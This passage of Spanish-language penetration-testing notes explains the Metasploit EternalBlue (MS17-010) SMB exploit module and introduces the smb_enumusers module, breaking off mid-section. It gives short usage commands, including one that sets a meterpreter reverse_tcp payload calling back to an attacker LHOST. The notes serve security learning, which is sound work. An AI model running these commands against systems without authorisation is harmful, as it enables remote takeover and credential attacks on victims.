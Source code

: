 					- La vulnerabilidad reside en la manera en que el protocolo SMBv1 maneja paquetes especialmente diseñados. Un atacante que logre explotar esta vulnerabilidad puede ejecutar código arbitrario en el sistema de destino, permitiéndole controlar completamente la máquina. Esto incluye la posibilidad de instalar programas, ver, cambiar o borrar datos, o crear nuevas cuentas con todos los derechos de usuario.
				- ### Características del Módulo **smb_ms17_010**
					
					- **Nombre del Módulo**: `exploit/windows/smb/ms17_010_eternalblue`
					- **Plataformas Afectadas**: Windows XP, Windows Vista, Windows 7, Windows 8, Windows Server 2003, Windows Server 2008, y Windows Server 2012.
					- **Tipos de Payload**: Dependiendo de la configuración, puede ejecutar un shell reverso, meterpreter, o cualquier otro payload compatible de Metasploit.
				- ### Cómo Funciona el Módulo
					
					1. **Conexión al Servicio SMB**: El módulo primero se conecta al puerto 445 del objetivo, donde normalmente está corriendo el servicio SMB.
					    
					2. **Comprobación de Vulnerabilidad**: El exploit comprueba si el objetivo es vulnerable, enviando un paquete especialmente diseñado que interactúa con el servicio SMB.
					    
					3. **Exploitación**: Si el objetivo es vulnerable, el módulo envía un paquete especialmente diseñado que provoca un desbordamiento de búfer en el kernel del sistema operativo, permitiendo la ejecución remota de código.
					    
					4. **Carga del Payload**: Una vez explotado, el módulo carga el payload que se ha configurado. Esto puede ser un shell, un meterpreter, o cualquier otro payload configurado.
					    
					5. **Ejecución del Payload**: Finalmente, el payload es ejecutado en el sistema comprometido, lo que le da al atacante acceso al sistema.
				- ### Uso del Módulo en Metasploit
	
					1. **Cargar el Módulo**:
					    				    
					    `use exploit/windows/smb/ms17_010_eternalblue`
					    
					2. **Configurar los Parámetros Necesarios**:
					    
					    - **RHOST**: La dirección IP del objetivo.
					    - **RPORT**: El puerto del servicio SMB (por defecto, 445).
					    - **Payload**: Seleccionar un payload adecuado. Por ejemplo:
					        
					        `set payload windows/x64/meterpreter/reverse_tcp set LHOST <tu_IP> set LPORT <puerto>`
					        
					    - **SMBUser y SMBPass**: Opcionalmente, puedes configurar credenciales si las tienes.
					3. **Verificar la Vulnerabilidad** (opcional):
					    Puedes verificar si el objetivo es vulnerable sin explotarlo:
					    				        
					        `set VERIFY_TARGET true`
					        
					4. **Ejecutar el Exploit**:
					    			    
					    `exploit`
					    
					    Esto intentará explotar la vulnerabilidad y ejecutar el payload en el objetivo.
		- **Modulo para enumerar usuarios:
			- El módulo `smb_enumusers` de Metasploit es un módulo auxiliar diseñado para enumerar los usuarios de un sistema Windows a través del servicio SMB (Server Message Block). Este tipo de enumeración es muy útil en pruebas de penetración, ya que permite a un atacante obtener una lista de usuarios válidos en el sistema objetivo, lo que puede facilitar posteriores ataques, como fuerza bruta para adivinar contraseñas o explotación de otras vulnerabilidades.
				- ### Descripción del Módulo
					